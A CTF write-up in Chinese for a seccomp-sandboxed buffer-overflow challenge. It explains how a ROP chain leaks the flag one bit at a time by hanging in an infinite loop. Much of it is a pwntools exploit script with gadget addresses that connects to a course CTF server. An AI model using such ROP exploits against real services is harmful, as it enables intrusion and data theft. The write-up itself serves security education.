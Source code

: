 ```c
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);
    seccomp_load(ctx);
    seccomp_release(ctx);

    return 0;
}
```

跟作業一樣被禁用了幾乎所有 syscall。
作業的 how2know 是用 infinite loop 讓我們可以每次分辨出一個 bit，這題只差在說作業會執行我們自己寫的 shell code 而這題只有 buffer overflow，而且有開 NX。不過是 static linked 所以 ROP gadget 和 main/flag 的 address 都直接抓得到。

剩下來的問題就是用 ROP chain 寫一個 while loop 還有 conditional jmp 了。

註：得到 ROP address 可以用 pwntools 附的 `ROPgadget` 這個指令

```bash
ROPgadget --multibr --binary share/chal | fzf
```

```python
from pwn import *
import func_timeout

context.arch = 'amd64'
context.terminal = ['wezterm', 'start']
context.log_level = 'error'

# r = gdb.debug('share/chal', 'break main')
# r = process('share/chal') #, aslr=False)
# gdb.attach(r)

main_addr = 0x401cb5
flag_addr = 0x4de2e0

pop_rax_ret = 0x0000000000458237 # : pop rax ; ret
pop_rsi_ret = 0x0000000000402798 # : pop rsi ; ret
pop_rdi_ret = 0x0000000000401812 # : pop rdi ; ret
pop_rdx_ret = 0x000000000040171f # : pop rdx ; ret

push_rsi_ret = 0x0000000000412b46 # : push rsi ; ret

def gogo(N, OFFSET):
    r = remote('edu-ctf.zoolab.org', 10012)
    # r = process('share/chal')

    ROP = flat(
            pop_rdx_ret, N,
            pop_rax_ret, flag_addr + OFFSET,

            0x0000000000438c36, # : cmp byte ptr [rax], dl ; ret
            0x0000000000493f6e, # : jle 0x494010 ; ret

            # 0x000000000048d0df, # : cmp rax, -3 ; jbe 0x48d0f0 ; ret
            # 0x0000000000402ed9, # : cmp eax, 0xd922a ; ret

            # infinite loop
            pop_rsi_ret, push_rsi_ret,
            push_rsi_ret,
    )

    # print(len(ROP))
    payload = cyclic(0x28) + ROP
    r.send(payload)

```